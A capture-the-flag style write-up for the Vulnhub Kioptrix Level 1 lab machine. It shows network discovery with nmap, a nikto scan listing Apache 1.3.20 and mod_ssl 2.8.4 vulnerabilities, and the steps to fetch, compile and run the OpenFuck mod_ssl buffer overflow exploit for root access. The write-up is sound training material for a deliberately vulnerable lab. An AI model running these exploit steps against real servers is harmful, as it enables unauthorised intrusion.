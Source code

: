 
# Kioptrix Level 1
1. We need to find the machine IP on our network:

	* ```ip addr show```
 ``` root@kali:~/Desktop# ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:e7:ed:ef brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.9/24 brd 192.168.50.255 scope global dynamic noprefixroute eth0
       valid_lft 81286sec preferred_lft 81286sec
    inet6 fe80::20c:29ff:fee7:edef/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

```

* 	 * From this output we can see on eth0:inet we have ```192.168.50.9/24```
	 * Map your local network to find the ip of the Vulnhub Machine
	 * ```nmap 192.168.50.9/24```

 ```
Nmap scan report for 192.168.50.207
Host is up (0.000072s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm
MAC Address: 00:0C:29:78:29:0C (VMware)
```


*   * Our Vulnhub Machine is ```192.168.50.207```
2. Lets take a look at the nmap
	* We see some ports open but first we should take a look at the site since port 80 is open
3. Taking a look at the webpage
	* ![Screenshot][K1homepage]
	* From the basic page we know that this is an Apache server running on Red Hat Linux
	* Clicking on any of the links will take you to an error page like so:
	* ![Screenshot][K1errorpage]
	* We now know it is running ```Apache 1.3.20```
4. Checking if Apache 1.3.20 is vulnerable
	* We're going to see whether 1.3.20 has published exploits using searchsploit which searches [Exploit-db](https://www.exploit-db.com/)
	* Run ```searchsploit Apache```
	* Looking around, I couldn't find anything that I could use
	* We will try to see if ```nikto``` a web server scanner, can give us any more information
	* Run ```nikto -h 192.168.50.207```
	* Taking a look back at the ```searchsploit``` results, we can see that there is an exploit for mod_ssl versions
```root@kali:~# nikto -h 192.168.50.207
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.50.207
+ Target Hostname:    192.168.50.207
+ Target Port:        80
+ Start Time:         2018-04-09 12:50:40 (GMT-4)
---------------------------------------------------------------------------
...
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 20 item(s) reported on remote host
+ End Time:           2018-04-09 12:51:00 (GMT-4) (20 seconds)
```

* 	* In our previous ```searchsploit``` there was a mod_ssl exploit which we can leverage since we know now that mod_ssl is on 2.8.4

	* ```Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overf | exploits/unix/remote/21671.c```
	* For other searchsploit's, you can get a copy into your current directory by using mirror
	* ```searchsploit -m exploits/unix/remote/21671.c```
	* There are many resources online on how to update OpenFuck.c, but I chose to use [this](https://github.com/gazcbm/openfuck-2017)
5. Exploiting using OpenFuck.c
	* Using the instructions included in the file:
	* ```gcc -o OpenFuck OpenFuck.c -lcrypto```
	* ```./openfuck 0x6b 192.168.50.207 443 -c 50```

ROOTED!

[K1homepage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K1homepage.png
[K1errorpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K1errorpage.png